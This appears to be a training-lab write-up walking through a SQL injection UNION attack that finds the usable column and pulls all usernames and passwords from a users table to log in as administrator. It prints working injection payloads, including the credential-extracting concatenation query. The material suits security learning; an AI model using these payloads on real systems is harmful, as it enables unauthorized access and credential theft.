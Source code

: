 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

> Lab Objective: perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

- Firstly, filter products based on category (e.g., `?category=Accessories`)

- Use this payload to check is SQLi exist `Accessories'`
  ![1st Screenshot](./Photos/1.png)

  - Which indicates that SQLi exist.

- Use `' UNION SELECT null, ... -- -` to see how many columns are returned by the main query, then replace each `null` with `'a'` to check which column can carry a string value.

- The main query return two columns, and the second column only can carry a string value.

  - using this payload `' UNION SELECT null, 'a' -- -`
    ![2nd Screenshot](./Photos/2.png)

- Use this payload `' UNION SELECT null, username || '~' || password FROM users -- -`, to retrieve all usernames and passwords from users table.

  > Note: table & column names are provided in the lab description

  ![3rd Screenshot](./Photos/3.png)

- Use the administrator credentials to log in as administrator.
  ![4th Screenshot](./Photos/4.png)
  ![5th Screenshot](./Photos/5.png)
